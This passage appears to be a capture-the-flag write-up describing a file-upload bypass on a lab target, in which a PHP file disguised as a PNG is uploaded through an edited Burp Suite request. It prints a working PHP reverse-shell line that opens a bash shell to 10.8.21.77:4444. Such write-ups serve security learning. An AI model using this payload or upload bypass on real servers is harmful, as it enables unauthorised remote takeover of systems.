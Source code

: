 By uploading a file named **reverseshell.php.png**, it's possible to bypass this function if the server does not check the MIME type of the file. Since the extension is valid (.png), the file will pass the extension check, but the actual content could be a malicious PHP file capable of executing a reverse shell when accessed.

I send a test file named **test.png** and intercept its request.

![burptestfile](/images/expose/5.png)

From the source code analysis, it appears that uploaded files are saved in the **/upload_thm_1001** directory. I leverage this functionality to upload a file containing a reverse shell, which will allow me to establish a reverse connection and take over the remote shell.

My reverse shell below
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.8.21.77/4444 0>&1'"); ?>
```

While uploading the reverse shell file, I intercept the HTTP request using **Burp Suite**. I then edit the request, analyzing its content for hexadecimal-encoded values corresponding to the .png extension. The goal of this modification is to craft the request in such a way that it bypasses the file type validation mechanisms and allows the upload of a file with the embedded shell.

![beforediting](/images/expose/6.jpg)